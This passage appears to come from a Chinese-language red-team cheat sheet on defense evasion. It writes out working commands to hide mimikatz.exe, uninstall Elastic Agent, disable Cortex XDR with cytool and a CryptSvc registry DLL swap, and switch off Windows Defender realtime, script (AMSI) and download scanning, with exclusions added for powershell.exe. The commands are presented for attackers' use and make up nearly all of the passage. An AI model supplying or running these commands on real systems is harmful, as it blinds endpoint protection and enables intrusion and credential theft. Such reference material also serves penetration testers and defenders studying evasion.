 ```ps1
PS> attrib +h mimikatz.exe
```

## 禁用杀毒软件和安全

### 杀毒软件移除

* [Sophos Removal Tool.ps1](https://github.com/ayeskatalas/Sophos-Removal-Tool/)

* [Symantec CleanWipe](https://knowledge.broadcom.com/external/article/178870/download-the-cleanwipe-removal-tool-to-u.html)

* [Elastic EDR/Security](https://www.elastic.co/guide/en/fleet/current/uninstall-elastic-agent.html)

  ```ps1
  cd "C:\Program Files\Elastic\Agent\"
  PS C:\Program Files\Elastic\Agent> .\elastic-agent.exe uninstall
  Elastic Agent将从您的系统中卸载，位置在C:\Program Files\Elastic\Agent。是否继续？[Y/n]:Y
  Elastic Agent已被卸载。
  ```

* [Cortex XDR](https://mrd0x.com/cortex-xdr-analysis-and-bypass/)

  ```ps1
  # 全局卸载密码：Password1
  密码哈希位于C:\ProgramData\Cyvera\LocalSystem\Persistence\agent_settings.db
  查找PasswordHash、PasswordSalt或password, salt字符串。
  
  # 禁用Cortex：将DLL更改为随机值，然后重启
  reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CryptSvc\Parameters /t REG_EXPAND_SZ /v ServiceDll /d nothing.dll /f
  
  # 禁用启动时的代理（需要重启才能生效）
  cytool.exe startup disable
  
  # 禁用Cortex XDR文件、进程、注册表和服务的保护
  cytool.exe protect disable
  
  # 禁用Cortex XDR（即使启用了篡改保护）
  cytool.exe runtime disable
  
  # 禁用事件收集
  cytool.exe event_collection disable
  ```

### 禁用Windows Defender

```powershell
# 禁用Defender
sc config WinDefend start= disabled
sc stop WinDefend
Set-MpPreference -DisableRealtimeMonitoring $true

## 排除进程/位置
Set-MpPreference -ExclusionProcess "word.exe", "vmwp.exe"
Add-MpPreference -ExclusionProcess 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe'
Add-MpPreference -ExclusionPath C:\Video, C:\install

# 禁用扫描所有下载的文件和附件，禁用AMSI（反应式）
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
PS C:\> Set-MpPreference -DisableIOAVProtection $true
# 禁用AMSI（设置为0以启用）
PS C:\> Set-MpPreference -DisableScriptScanning 1 

# 盲目ETW Windows Defender：清零对应于其ETW会话的注册表值
```